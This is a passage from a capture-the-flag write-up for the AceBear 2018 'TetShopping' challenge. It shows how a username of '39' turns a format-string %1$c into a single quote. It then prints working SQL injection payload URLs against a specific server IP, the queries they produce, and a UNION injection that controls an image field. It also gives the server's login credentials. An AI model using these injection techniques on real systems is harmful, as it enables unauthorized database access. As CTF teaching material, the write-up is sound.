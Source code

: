 One small issue though, if we're using the username as a variable, we're going to need to get a new name. So I created an account with the username `39` which translates to an ASCII value of single quote. (Password on live server is `39` as well if you want to try it out).

NOTE: 39 followed by any string I _believe_ would work as well. So `39 cats` should get the same results.

This gives us the payload of:

http://128.199.179.156/info.php?uid=test%1$c%20or%20%1$c1%1$c=%1$c1
(each %1$c is a single quote because of our username of `39`)

Which results in the query:
`SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='test' or '1'='1' and user='39'`

SQLi! Just replace all single quotes with `%1$c1` and do all SQLi as normal since there's no other protections / filtering.

Now controlling the "img" result is trivial:
End Query:
`USE VN_tet; SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='test' UNION SELECT 'my_name', 'my_desc', "IMG FIELD!"; #' and user='39'`
Result:
```
name        | description  | img
"my_name"   | "my_desc"    | "IMG FIELD!"
```
Payload: http://128.199.179.156/info.php?uid=test%1$c%20%20UNION%20SELECT%20%1$cmy_name%1$c,%1$cmy_desc%1$c,%20%1$cIMG%20FIELD!%1$c;%20%23

I tested this to see if I could load images from remote locations, and I could: I set img to http://<my_vps>/cat.jpg and huzzah!

![RemoteImage](https://github.com/reznok/CTFWriteUps/blob/master/AceBear_2018/TetShopping/screenshots/remoteimage.png?raw=true)
